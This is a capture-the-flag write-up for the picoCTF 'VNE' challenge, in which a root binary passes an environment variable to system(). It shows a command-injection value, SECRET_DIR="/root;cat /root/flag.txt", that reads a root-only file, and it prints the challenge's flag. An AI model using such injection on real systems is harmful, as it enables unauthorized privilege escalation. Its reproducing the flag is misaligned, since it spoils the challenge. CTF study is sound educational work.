

# VNE
> We've got a binary that can list directories as root, try it out !!

> Additional details will be available after launching your challenge instance.

## About the Challenge
We have been given an access to SSH server and then there is a file called `bin` and if we run the file


## How to Solve?
If we set an environment variables called `SECRET_DIR` and the value is `/root` because we need to know what is inside `/root` directory. You can use this command

```shell
export SECRET_DIR=/root
```

Here is the output


As you can see there is a file called `flag.txt` and we need to read the content of the file to obtain the flag. If we check the string of the `bin` file using this command

```shell
strings bin
```

Here is the output



As you can see the file using `system()` function to listing a directory, so the idea here, we need to do Command injection by adding `; command` in the `SECRET_DIR` environment variable values. So for example

```shell
export SECRET_DIR="/root;cat /root/flag.txt"
```

And then rerun the program to obtain the flag


```
picoCTF{Power_t0_man!pul4t3_3nv_cdeb2a4d}
```